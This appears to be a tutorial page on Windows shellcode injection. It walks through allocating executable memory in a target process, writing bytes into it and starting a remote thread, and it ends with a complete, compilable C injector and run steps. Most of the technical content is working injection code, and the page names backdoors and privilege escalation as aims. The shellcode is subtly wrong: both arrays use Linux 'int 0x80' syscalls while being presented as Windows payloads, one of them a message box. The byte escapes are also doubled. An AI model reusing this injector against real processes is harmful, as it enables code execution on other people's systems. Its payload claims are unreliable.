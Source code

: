 # Inject the shellcode into the running process byte by byte.


# 👉 Overview

---

### 👀 What ?

> Injecting shellcode into a running process is a technique used by cybersecurity professionals, particularly penetration testers and ethical hackers, to test the integrity of a system. Shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. Injecting it into a running process can manipulate the process to perform actions that it wasn't initially designed to do.
> 

### 🧐 Why ?

> The importance of understanding how to inject shellcode into a running process lies in its potential for exploitation. Unethical hackers can use this technique to gain unauthorized access to a system, manipulate data, or even gain complete control over a network. Therefore, cybersecurity professionals need to understand this technique to better protect their systems and networks. It's also a fundamental skill for penetration testers and red team members to emulate real-world hacking scenarios and identify vulnerabilities.
> 

### ⛏️ How ?

> Injecting shellcode into a running process involves several steps. First, you need to identify a vulnerable process. This can be done using various tools and techniques such as fuzzing or exploit development. Once a vulnerable process is identified, you write the shellcode that will be injected. This shellcode should be designed to perform the desired action, such as creating a backdoor or escalating privileges. Next, you inject the shellcode into the running process. This can be done using various methods, including DLL injection, process hollowing, or even direct memory writing. Finally, the injected shellcode is executed, causing the running process to perform the intended action.
> 

### ⏳ When ?

> The practice of injecting shellcode into running processes has been around since the early days of software vulnerability exploitation. It's a common technique in the realm of cybersecurity, particularly in penetration testing and ethical hacking.
> 

# ⚙️ Technical Explanations

---

### Overview

Shellcode injection is an advanced technique used in cybersecurity to execute arbitrary code within the memory space of a running process. This method exploits the target process’s memory management and often involves intricate knowledge of assembly language and operating system internals. Shellcode is typically written in machine code, tailored to perform specific actions when executed. The injection process generally involves the following steps:

1. **Allocating Space**: Allocate space in the target process’s memory for the shellcode.
2. **Writing the Shellcode**: Write the shellcode into the allocated space.
3. **Redirecting Execution Flow**: Redirect the process’s execution flow to the injected shellcode.

### Steps of Shellcode Injection

### 1. Allocating Space

Allocating memory within the target process is the first step. In Windows, the `VirtualAllocEx` function can be used to allocate memory that is both readable and executable. This ensures that the shellcode can be executed once it is written into this space.

```c
HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
LPVOID allocatedMemory = VirtualAllocEx(processHandle, NULL, sizeOfShellcode, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

- `OpenProcess`: Opens the target process with the necessary access rights.
- `VirtualAllocEx`: Allocates memory in the target process. The memory is both committed and reserved, and its protection is set to allow execution (`PAGE_EXECUTE_READWRITE`).

### 2. Writing the Shellcode

After allocating the necessary memory, the shellcode is written into this space using `WriteProcessMemory`.

```c
unsigned char shellcode[] =
"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xeb\\x32\\x5b\\xb0\\x05\\x31\\xc9\\xcd"
"\\x80\\x89\\xc6\\xeb\\x06\\xb0\\x01\\x31\\xdb\\xcd\\x80\\x89\\xf3\\xb0\\x03\\x83"
"\\xec\\x01\\x8d\\x0c\\x24\\xb2\\x01\\xcd\\x80\\x31\\xdb\\x39\\xc3\\x74\\xe6\\xb0"
"\\x04\\xb3\\x01\\xb2\\x01\\xcd\\x80\\x83\\xc4\\x01\\xeb\\xdf\\xe8\\xc9\\xff\\xff"
"\\xff";

DWORD bytesWritten;
WriteProcessMemory(processHandle, allocatedMemory, shellcode, sizeof(shellcode), &bytesWritten);

```

- `WriteProcessMemory`: Writes the shellcode into the allocated memory space in the target process.

### 3. Redirecting Execution Flow

To execute the shellcode, the process’s execution flow must be redirected to the address of the injected shellcode. This can be done by creating a remote thread that starts execution at the shellcode’s address.

```c
CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);

```

- `CreateRemoteThread`: Creates a thread in the target process, starting execution at the allocated memory containing the shellcode.

### Example of Shellcode Injection

Here's a complete example showing how to perform shellcode injection to display a message box on a Windows system:

### C Program to Inject Shellcode

```c
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
    // Assuming the target process ID is passed as an argument
    DWORD processId = atoi(argv[1]);
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (processHandle == NULL) {
        printf("Failed to open process\\n");
        return 1;
    }

    // Shellcode for displaying a message box
    unsigned char shellcode[] =
        "\\x31\\xc0\\x50\\x68\\x6c\\x6f\\x20\\x21\\x68\\x20\\x57\\x6f\\x72\\x68\\x48"
        "\\x65\\x6c\\x6c\\x89\\xe1\\x31\\xd2\\x6a\\x00\\x52\\x51\\x31\\xdb\\xb3\\x40"
        "\\xcd\\x80";

    // Allocate memory in the target process
    LPVOID allocatedMemory = VirtualAllocEx(processHandle, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (allocatedMemory == NULL) {
        printf("Failed to allocate memory\\n");
        CloseHandle(processHandle);
        return 1;
    }

    // Write the shellcode into the allocated memory
    SIZE_T bytesWritten;
    if (!WriteProcessMemory(processHandle, allocatedMemory, shellcode, sizeof(shellcode), &bytesWritten)) {
        printf("Failed to write memory\\n");
        VirtualFreeEx(processHandle, allocatedMemory, 0, MEM_RELEASE);
        CloseHandle(processHandle);
        return 1;
    }

    // Create a remote thread to execute the shellcode
    HANDLE threadHandle = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);
    if (threadHandle == NULL) {
        printf("Failed to create remote thread\\n");
        VirtualFreeEx(processHandle, allocatedMemory, 0, MEM_RELEASE);
        CloseHandle(processHandle);
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(threadHandle, INFINITE);

    // Clean up
    VirtualFreeEx(processHandle, allocatedMemory, 0, MEM_RELEASE);
    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}

```

### Steps to Execute

1. **Compile the Program**: Compile the C program using a compiler like `gcc` or `cl` (Visual Studio Compiler).
2. **Run the Program**: Execute the compiled binary with the target process ID as an argument.

```bash
injector.exe <target_process_id>

```

### Defense Mechanisms

Modern operating systems employ several defense mechanisms to protect against shellcode injection:

1. **Data Execution Prevention (DEP)**: Prevents execution of code from non-executable memory regions.
2. **Address Space Layout Randomization (ASLR)**: Randomizes the memory addresses of key data areas to make it harder for attackers to predict target locations.
3. **Code Signing**: Ensures that only trusted code is executed by validating digital signatures.

### Conclusion

Shellcode injection is a powerful and sophisticated technique in cybersecurity, enabling attackers to execute arbitrary code within a target process. This process involves allocating memory, writing shellcode, and redirecting execution flow. Understanding these concepts is essential for cybersecurity professionals to develop effective defenses and for ethical hackers to identify and mitigate vulnerabilities. Always ensure that such techniques are used responsibly and legally within controlled environments.

